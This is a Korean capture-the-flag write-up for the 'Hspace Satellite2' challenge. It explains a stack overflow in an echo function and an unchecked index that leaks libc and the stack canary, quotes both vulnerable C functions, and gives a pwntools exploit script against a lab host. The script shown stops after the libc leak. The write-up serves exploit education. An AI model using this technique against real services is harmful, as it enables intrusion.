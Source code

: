 **출제자 책정 난이도**: medium

Hspace Satellite2 문제는 명령어 실행 기능이 제거되었다. 
0xee 1 명령을 통해 debug 모드를 활성화 후 0x04로 echo 명령을 실행할 수 있다.

echo는 3번 수행되는데 전달받은 문자열을 stack에 저장하고 BUF_SIZE는 1024이므로 overflow가 가능하다. overflow를 사용하여 canary leak이 가능하다.
```c++
void echo() {
    int str_len;
    char response[512];
    
    if (debug) {
        for (int i = 0; i < 3; i++) {
            memset(response, 0, 512);
            str_len = read(client_sock, response, BUF_SIZE - 1);
            if (str_len == 0 || str_len == -1) {
                return;
            }
            sprintf(message, "Message: %s\n", response);
            write(client_sock, message, strlen(message));
        }
    }
    else {
        sprintf(message, "You should enable debug mode\n");
        write(client_sock, message, strlen(message));
    }
}
```

또한 libc는 stdout, stdin 주소를 0x01 명령어에서 범위 검증을 하지 않기 때문에 leak이 가능하다
```c++
void controlPanels() {
    sprintf(message, "\nCurrent status: %s\n", _status[status]);

    status = atoi(command[1]);
    sprintf(message, "%sNew status: %s\n", message, _status[status]);

    write(client_sock, message, strlen(message));
}
```

libc, canary leak이 모두 되었으므로 echo 함수에서 overflow를 통해 rop payload를 넣을 수 있다.

아래는 rop payload이다.

```python
from pwn import *
import time

context.log_level = 'debug'

p = remote('10.10.1.1', 8001)

p.sendline(b'\xee 1')
time.sleep(0.1)

p.sendline(b'\x01 12')
time.sleep(0.2)

p.recvline()
p.recvline()
libc = u64(p.recvline().strip().split(b': ')[1].ljust(8, b'\x00')) - 0x21b780
log.info('libc base: ' + hex(libc))

p.sendline(b'\x01 8')
time.sleep(0.2)
```